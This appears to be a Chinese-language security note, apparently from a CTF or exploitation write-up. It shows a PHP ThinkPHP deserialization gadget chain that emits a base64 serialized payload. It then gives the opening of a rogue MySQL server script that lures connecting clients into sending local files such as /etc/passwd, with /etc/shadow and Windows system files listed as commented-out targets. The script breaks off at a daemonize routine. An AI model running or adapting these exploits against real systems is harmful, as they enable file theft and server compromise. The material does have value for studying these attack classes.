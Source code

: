 ```php
    $handle=new Think\Model($db);
    $sessionName="asdf";
    $memcache = new Think\Session\Driver\Memcache($sessionName,$handle);
    $s = new Think\Image\Driver\Imagick($memcache);
    var_dump($s);
    echo(base64_encode(serialize($s)));
}
```

[Mysql连接数据库时可读取文件](https://xz.aliyun.com/t/7169#toc-32)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204222134687.png)

[利用脚本](https://github.com/Gifts/Rogue-MySql-Server/blob/master/rogue_mysql_server.py)

>需要对这个脚本的`Server Greeting`进行一定的修改

```python
# -*- coding: UTF-8 -*-
import socket
import asyncore
import asynchat
import struct
import random
import logging
import logging.handlers



PORT = 3306

log = logging.getLogger(__name__)

log.setLevel(logging.DEBUG)
tmp_format = logging.handlers.WatchedFileHandler('mysql.log', 'ab')
tmp_format.setFormatter(logging.Formatter("%(asctime)s:%(levelname)s:%(message)s"))
log.addHandler(
    tmp_format
)

filelist = (
#    r'c:\boot.ini',
#    r'c:\windows\win.ini',
#    r'c:\windows\system32\drivers\etc\hosts',
   '/etc/passwd',
#    '/etc/shadow',
)


#================================================
#=======No need to change after this lines=======
#================================================

__author__ = 'Gifts'

def daemonize():
    import os, warnings
    if os.name != 'posix':
        warnings.warn('Cant create daemon on non-posix system')
        return

    if os.fork(): os._exit(0)
    os.setsid()
    if os.fork(): os._exit(0)
    os.umask(0o022)
```